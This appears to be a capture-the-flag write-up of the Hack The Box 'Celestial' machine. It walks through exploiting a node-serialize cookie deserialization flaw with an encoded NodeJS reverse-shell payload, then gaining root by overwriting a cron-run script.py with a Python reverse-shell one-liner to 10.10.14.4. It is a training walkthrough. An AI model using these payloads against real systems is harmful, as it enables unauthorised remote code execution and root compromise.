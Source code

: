 # Recon

As usual we start with a port scan on the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.85 -T5
```

That only reveals an open port on 3000 running the Node.js Express Framework. 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/1.png">

# Enumeration

After browsing to the website we run into a 404. But after refreshing we get a different message, some sort of formula. BurpSuite shows that on the first visit a cookie is set and after revisiting this is passed as a parameter.

Removing the following from the get request resulted in an error. This tells us that the data appears to be unserialized. We also spot a username: ```sun```.
```
Upgrade-Insecure-Requests: 1
If-None-Match: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/2.png">

The cookie appears to be base64 encoded. After decoding we get the following result:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/3.png">

Changing the ```num``` has an effect on the formula. We can mess with the parameters to generate the same kind of error we got before.

# Initial Foothold
We can use nodejsshell.py to create a encoded NodeJS reverse shell. We'll first have to create a payload, serialize it, base64 encode it and finally send it as the cookie parameter. 

[nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

First we'll run ```python nodejsshell.py [Listener IP] [Listener Port]``` to create the encoded shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/4.png">


Then we'll create an ```exploit.js``` file which we use to serialize the payload so that it matches the website's.
```
var y = { rce: function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,10>
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));

```

Running ```nodejs exploit.js``` will create our serialized payload.

I had a issue saying the node-serialize module could not be found. Running ```npm install``` solved this.

After these steps we finally base64 encode it so we can pass it as the cookie parameter. We make sure to have our listener ready before we send our request with BurpSuite. This will result in an error but at the same time provides us with a reverse shell as user ```sun```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/5.png">


# Privilege Escalation
First we'll upgrade the shell. We'll run ```which python``` to see if it has python installed.
We then run the following commands:
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
```

One thing we notice is that user ```sun``` is part of the ```sudo``` group. We also spot a file called ```script.py``` in the home directory. One directory up we find ```output.txt``` which get's changed every 5 minutes. The content is the content from ```script.py```.

If this script is initiated by the root user we can try to alter the content of the file in order to give us a root shell.

We can use ```pspy``` to see what's exactly going on. Download it from [here](https://github.com/DominicBreuker/pspy). 

After a few minutes we see the following commands proving what we already thought:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/6.png">

Good news! Now we can use a oneliner php shell and save it as the script:
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > script.py
```

With our new listener ready on port 4446 we wait a few minutes for the script to run. As soon as it gets executed a root shell will pop up.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/7.png">